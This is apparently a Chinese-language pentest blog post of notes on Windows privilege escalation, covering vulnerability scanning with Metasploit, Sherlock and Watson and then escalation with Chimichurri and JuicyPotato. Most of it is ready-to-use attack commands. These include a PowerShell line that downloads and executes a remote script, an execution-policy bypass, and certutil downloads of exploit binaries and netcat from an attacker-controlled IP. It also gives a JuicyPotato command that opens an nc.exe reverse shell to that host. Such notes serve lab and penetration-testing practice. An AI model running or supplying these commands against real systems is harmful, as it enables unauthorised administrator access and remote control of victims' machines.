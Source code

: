 ```yaml
---
title: Windows漏洞扫描与提权
date: 2021/12/12
tags: [windows,渗透测试,漏洞利用]
categories: 渗透测试
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_20.jpg
index_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_20.jpg
---
```




# windows漏洞扫描与提权

## 漏洞扫描

- 使用msf

```
use post/multi/recon/local_exploit_suggester
```

- 脚本 [Sherlock](https://github.com/mxrmiss/Sherlock)
  - **[使用方法](https://vk9-sec.com/sherlock-find-missing-windows-patches-for-local-privilege-escalation/)**


>```
>初步使用本地加载脚本
>Import-Module Sherlock.ps1
>
>远程加载脚本
>IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1')
>
>在不触发脚本执行检测的情况下运行Sherlock
>powershell -ExecutionPolicy Bypass -File Sherlock.ps1
>```

>- 使用**Meterpreter**
>
>1. 加载powershell  
>
>```
>load powershell
>```
>
>![img](https://herozql.oss-cn-beijing.aliyuncs.com/main/word-image-30.png)
>
>2. 导入 Sherlock 脚本。找到包含它的文件夹 (第一次可能不成功，多试几次)
>
>```
>powershell_import ‘Sherlock.ps1’
>```
>
>![img](https://herozql.oss-cn-beijing.aliyuncs.com/main/word-image-31.png)
>
>3. 运行脚本 (第一次可能不成功，多试几次)
>
>```
>powershell_execute “Find-allvulns”
>```
>
>![img](https://herozql.oss-cn-beijing.aliyuncs.com/main/word-image-32.png)

- 脚本 [Watson](https://github.com/mxrmiss/Watson)



## 提权

- 脚本 [Chimichurri](https://github.com/mxrmiss/Chimichurri)

>- 在windows靶机中接收脚本文件
>
>```
>certutil -f -urlcache http://10.10.14.31:8000/chimichurri.exe chimichurri.exe
>```
>
>- 本地机器nc监听端口, 靶机上使用脚本文件
>
>```
>chimichurri.exe ip port
>```
>
>- 查看之前监听的端口(可能一次不一会成功，需要多试几次)

- 脚本 [juicyPotato.exe](https://github.com/ohpe/juicy-potato/releases)

>- 首先使用`whoami \priv` 查看用户权限，如果用户拥有`SeImpersonate`或`SeAssignPrimaryToken`权限，则这个脚本就适用
>- 上传到靶机
>
>```
>certutil -f -urlcache http://192.168.119.150:8000/JuicyPotato.exe juicyPotato.exe
>```
>
>- 上传nc.exe到靶机
>
>```
>certutil -f -urlcache http://192.168.119.150:8000/nc64.exe nc.exe
>```
>
>- 使用juicyPotato.exe
>
>```
>juicyPotato.exe  -l 5837 -t t -p C:\Windows\System32\cmd.exe   -a "/cc:\users\public\nc.exe -e cmd.exe 192.168.119.150 5555"
>```
>
>- 查看本地监听的端口，成功获取管理员权限
>
>